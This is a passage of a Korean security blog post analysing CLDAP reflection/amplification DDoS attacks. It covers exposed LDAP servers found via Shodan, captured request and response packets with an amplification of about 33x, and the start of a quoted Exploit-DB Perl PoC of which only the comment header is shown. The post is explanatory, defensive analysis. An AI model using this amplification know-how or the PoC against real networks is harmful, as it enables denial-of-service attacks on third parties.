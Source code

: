 현재 포스팅 작성 시간 기준(2019-12-26)으로 shodan에 오픈된 389 포트 검색 결과 국내에는 `2,022`개의 오픈된 LDAP 단말들이 나온다.

![shodan_open_389]({{site.url}}/static/images/2019/12/shodan-open-389.png)
*Shodan에 노출된 국내 LDAP 서버들*

### 공격패킷 분석

실제 공격발생 시, 발생된 패킷들을 살펴보았다.

![cldap_attack_packet]({{site.url}}/static/images/2019/12/캡처.PNG)
*CLDAP DRDoS 공격 Request패킷*

앞서 적은 것처럼 searchRequest 패킷을 다수의 랜덤 IP로 뿌리는 것을 확인할 수 있었다.
Request 패킷은 93 Bytes 로 간단한 프로토콜 구조로 보인다.

![ldap_attack_response_packet]({{site.url}}/static/images/2019/12/Screen Shot 2019-12-29 at 9.14.06 PM.png)
*CLDAP DRDoS 공격 Response 패킷*

응답패킷의 경우는 Fregment된 형태로 오는 것을 확인할 수 있다. 취약점이 있는 서버는 `rootDSE`의 항목 및 항목 속성과 같은 모든 구성정보를 리턴하기 되므로 응답패킷의 사이즈가 매우 커짐을 알 수 있다. (위의 경우는 **1514+1514+99 Bytes** 로 3,127 Bytes이며 증폭률은 약 **33배** 정도로 보인다.)

`rootDSE`는 해당 AD 서버의 스키마 정도로 보면된다. 포함되는 항목에 대한 자세한 정의는 [RootDSE (AD Schema) - Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/adschema/rootdse){:target="_blank"}를 참고하자.

### 실습

Exploit DB에는 취약한 LDAP서버를 테스트해보기 위한 [Perl 스크립트](https://www.exploit-db.com/exploits/40703){:target="_blank"}를 공개해 놓았다. 전문은 아래와 같다.

```perl
#!/usr/bin/perl
#
#  MS Windows Server 2008/2008 R2/ 2012/2012 R2/ AD LDAP RootDSE Netlogon
#  (CLDAP "AD Ping") query reflection DoS PoC
#
#  Copyright 2016 (c) Todor Donev
#  Varna, Bulgaria
#  todor.donev@gmail.com
#  https://www.ethical-hacker.org/
#  https://www.facebook.com/ethicalhackerorg
#  http://pastebin.com/u/hackerscommunity
#
#  MS Windows Server 2016       [NOT TESTED !!!]
#
#  Description:
#  The attacker  sends a simple query to a vulnerable reflector
#  supporting the Connectionless LDAP service (CLDAP) and using
#  address spoofing makes it appear to originate from the intended
#  victim. The CLDAP service responds to the spoofed address,
#  sending unwanted network traffic to the attacker’s intended target.
#
#  Amplification techniques allow bad actors to intensify the size
#  of their attacks, because the responses generated by the LDAP
#  servers are much larger than the attacker’s queries. In this case,
#  the LDAP service responses are capable of reaching very high
#  bandwidth and we have seen an average amplification factor of
#  46x and a peak of 55x.
#
#
#  Disclaimer:
#  This or previous program is for Educational purpose ONLY. Do not
#  use it without permission. The usual disclaimer applies, especially
#  the fact that Todor Donev is not liable for any damages caused by
#  direct or indirect use of the information or functionality provided
#  by these programs. The author or any Internet provider bears NO
```